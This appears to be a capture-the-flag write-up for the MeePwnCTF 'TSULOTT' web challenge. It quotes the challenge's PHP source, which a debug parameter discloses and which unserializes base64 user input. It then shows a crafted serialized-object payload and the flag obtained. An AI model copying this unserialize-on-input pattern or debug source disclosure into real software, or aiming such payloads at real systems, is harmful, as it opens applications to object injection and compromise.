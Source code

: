 # TSULOTT

**100 pts**

> Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!! <br/> <br/> Remote: [128.199.190.23:8001](http://128.199.190.23:8001)

---

# Writeups
![](https://github.com/bl4ckpr15m/CTF-Writeups/blob/master/img/Screenshot_20170716_184808.png)

## Think simple
![](https://github.com/bl4ckpr15m/CTF-Writeups/blob/master/img/Screenshot_20170714_204246.png)
- Lets check the source code from the web.
- Here we can see a comment,
    ```HTML
    <!-- GET is_debug=1 -->
    ```
    mmmm... why not [128.199.190.23:8001?is_debug=1](http://128.199.190.23:8001?is_debug=1).
- Awesome! now we can read the server code, it is written in PHP.

```php
<body> 
<style> 
input[type=text] { 
    width: 40%; 
    padding: 12px 20px; 
    margin: 8px 0; 
    box-sizing: border-box; 
    border: 2px solid red; 
    background-color: #ebfff8; 
    border-radius: 4px; 
} 

button[type=submit] { 
    width: 10%; 
    background-color: #F94848; 
    color: white; 
    padding: 14px 20px; 
    margin: 8px 0; 
    border: none; 
    border-radius: 4px; 
    cursor: pointer; 
} 

button[type=submit]:hover { 
    background-color: #45a049; 
} 

body { 
    background-image: url("money.jpg"); 
} 
</style> 

<?php 
class Object  
{  
  var $jackpot; 
  var $enter;  
} 
?> 


<?php 

include('secret.php'); 

if(isset($_GET['input']))   
{ 
  $obj = unserialize(base64_decode($_GET['input'])); 
  if($obj) 
  { 
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);  
    if($obj->enter === $obj->jackpot) 
    { 
      echo "<center><strong><font color='white'>CONGRATULATION! You Won JACKPOT PriZe !!! </font></strong></center>". "<br><center><strong><font color='white' size='20'>".$obj->jackpot."</font></strong></center>"; 
      echo "<br><center><strong><font color='green' size='25'>".$flag."</font></strong></center><br>"; 
      echo "<center><img src='http://www.relatably.com/m/img/cross-memes/5378589.jpg' /></center>"; 

    } 
    else 
    { 
      echo "<br><br><center><strong><font color='white'>Wrong! True Six Numbers Are: </font></strong></center>". "<br><center><strong><font color='white' size='25'>".$obj->jackpot."</font></strong></center><br>"; 
    } 
  } 
  else 
  { 
    echo "<center><strong><font color='white'>- Something wrong, do not hack us please! -</font></strong></center>"; 
  } 
} 
else 
{ 
  echo ""; 
} 
?> 
<center> 
<br><h2><font color='yellow' size=8>-- TSU</font><font color='red' size=8>LOTT --</font></h2> 
<p><p><font color='white'>Input your code to win jackpot!</font><p> 
<form> 
          <input type="text" name="input" /><p><p> 
          <button type="submit" name="btn-submit" value="go">send</button> 
</form> 
</center> 
<?php 
if (isset($_GET['gen_code']) && !empty($_GET['gen_code'])) 
{ 
  $temp = new Object; 
  $temp->enter=$_GET['gen_code']; 
  $code=base64_encode(serialize($temp));  
  echo '<center><font color=\'white\'>Here is your code, please use it to Lott: <strong>'.$code.'</strong></font></center>'; 
} 
?> 
<center> 
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font> 
<h3><font color='white'>Take code</font></h3><p> 
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p> 
<form> 
      <input type="text" name="gen_code" maxlength="17" /><p><p> 
      <button type="submit" name="btn-submit" value="go">send</button> 
</form> 
</center> 
<?php 
if(isset($_GET['is_debug']) && $_GET['is_debug']==='1') 
{ 
   show_source(__FILE__); 
} 
?> 
<!-- GET is_debug=1 --> 
</body> 
```

## Injection
The flag is rendered after this condition:
```php
if($obj->enter === $obj->jackpot)
```
Reading the PHP code we can notice the vulnerability. PHP Object Injection.
Get the input and try to unserialize it as an Object.
```php
$obj = unserialize(base64_decode($_GET['input']));
```
We need the enter value and the jackpot value of the object to be the same, but we will never manage to get it right. The object is serialized and then the jackpot attribute is setted as random.
```php
$obj = unserialize(base64_decode($_GET['input'])); 
if($obj) { 
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99); 
    if($obj->enter === $obj->jackpot);
...
}
```

Our only chance is generate a completely random object and encoded with base64.
- [https://www.tools4noobs.com/online_php_functions/base64_encode/](https://www.tools4noobs.com/online_php_functions/base64_encode/)
- Generate a random object, in this case an object Test who have 2 attributes (jackpot and enter) both of them NULL
    ```json
        INPUT: O:4:"Test":2:{s:7:"jackpot";N;s:5:"enter";N;}
    ```
    ```json
        OUTPUT: "Tzo0OiJUZXN0IjoyOntzOjc6ImphY2twb3QiO047czo1OiJlbnRlciI7Tjt9"
    ```
    
## Win the lottery
Paste the output into the form and voilà:
```
MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}
```

![](https://github.com/bl4ckpr15m/CTF-Writeups/blob/master/img/Screenshot_20170715_000809.png)
